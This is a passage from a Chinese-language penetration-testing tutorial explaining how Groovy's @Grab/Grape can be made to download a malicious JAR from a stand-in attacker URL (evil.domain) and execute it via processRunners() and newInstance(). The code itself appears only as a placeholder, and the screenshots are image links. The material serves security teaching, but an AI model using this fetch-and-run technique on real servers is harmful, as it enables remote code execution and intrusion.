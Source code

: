 因此，`@Grab`将从所述存储库导入依赖项并将其添加到代码中。现在，一个问题出现了：“如果存储库不在 Maven 上怎么办？”在我们的情况下，因为它在 shellcode 中，Grape 将允许我们指定 URL，如下面的屏幕截图所示：

![](img/8f39306c-6f4b-4973-9df3-cd971a0d1da7.png)

在这里，以下代码将从[`evil.domain/evil/jar/org.restlet/1/org.restlet-1.jar`](http://evil.domain/evil/jar/org.restlet/1/org.restlet-1.jar)下载 JAR 文件：

[PRE8]

现在我们已经从服务器下载了恶意的 JAR 文件，下一个任务是执行它。为此，我们需要深入研究 Groovy 核心的源代码，这是 Grape 实现的地方（[`github.com/groovy/groovy-core/blob/master/src/main/groovy/grape/GrapeIvy.groovy`](https://github.com/groovy/groovy-core/blob/master/src/main/groovy/grape/GrapeIvy.groovy)）。

我们可以使用一种方法来处理 ZIP（JAR）文件，并检查特定目录中的两种方法。请注意以下截图中显示的最后几行 - 有一个名为`processRunners()`的函数：

![](img/4a8afec0-a923-46a6-aaf1-35ae68720053.png)

通过查看以下函数，我们可以看到正在调用`newInstance()`。这意味着可以调用一个构造函数：

![](img/d232cc35-0555-4e5a-9dbb-574883056dba.png)
